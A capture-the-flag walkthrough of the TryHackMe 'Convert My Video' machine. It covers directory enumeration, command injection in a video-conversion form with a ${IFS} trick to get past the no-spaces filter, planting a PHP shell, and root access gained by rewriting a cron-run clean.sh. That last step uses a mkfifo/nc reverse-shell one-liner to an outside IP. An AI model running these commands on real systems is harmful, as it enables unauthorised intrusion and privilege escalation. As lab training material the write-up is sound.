








# Convert My Video 

- https://tryhackme.com/room/convertmyvideo
- March 10, 2023
- medium 

---

## Enumeration

### Nmap 

1. 22/ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.29 ((Ubuntu))

### HTTP

- directory brute forcing with ffuf
```
admin -> 401
images -> 403
js -> 403
tmp -> 403
```

- admin



- post video ID



```json

{
    "status":1,
    "errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nERROR: Incomplete YouTube ID abcde. URL https:\/\/www.youtube.com\/watch?v=abcde looks truncated.\n",
    "url_orginal":"https:\/\/www.youtube.com\/watch?v=abcde","output":"",
    "result_url":"\/tmp\/downloads\/640b14c2d0cad.mp3"
}
```

- main.js file

```javascript
$(function () {
    $("#convert").click(function () {
        $("#message").html("Converting...");
        $.post("/", { yt_url: "https://www.youtube.com/watch?v=" + $("#ytid").val() }, function (data) {
            try {
                data = JSON.parse(data);
                if(data.status == "0"){
                    $("#message").html("<a href='" + data.result_url + "'>Download MP3</a>");
                }
                else{
                    console.log(data);
                    $("#message").html("Oops! something went wrong");
                }
            } catch (error) {
                console.log(data);
                $("#message").html("Oops! something went wrong");
            }
        });
    });

});
```

- try to execute some linux command 



- it is vulnerable to command execution
- command execution can take place without youtube url



- it is ok, but if there is space in command, it will not execute
- I searched google and found this https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces
- substitute `${IFS}`  (it works for bash, not for zsh)



- try with reverse shell is not successful and upload php shell



- make sure there was `shell.php` file




## User Access

- listen with nc and 
```sh
curl http://$IP/shell.php
```
- will get www-data's shell

- explore and can't find a way and run linpeas 

```sh
╔══════════╣ Analyzing Htpasswd Files (limit 70)
-rw-r--r-- 1 www-data www-data 49 Apr 12  2020 /var/www/html/admin/.htpasswd
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

- crack and found password
- it is just username and password for entering admin route of website


## Root Access


- there is no cron job in cron tab 
- run pspy and find which processes are running



- cleanup.sh flie is running once per minute

```sh
$ ls -l
total 4
-rw-r--r-- 1 www-data www-data 17 Apr 12  2020 clean.sh
$ cat clean.sh
rm -rf downloads
```

- it is www-data's file 
- change `clean.sh` file to get reverse shell of other user,may be root user

```sh
$ cat clean.sh
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.57 4243 >/tmp/f
```
- listen with nc and 
- wait for a minute 
- get root access

---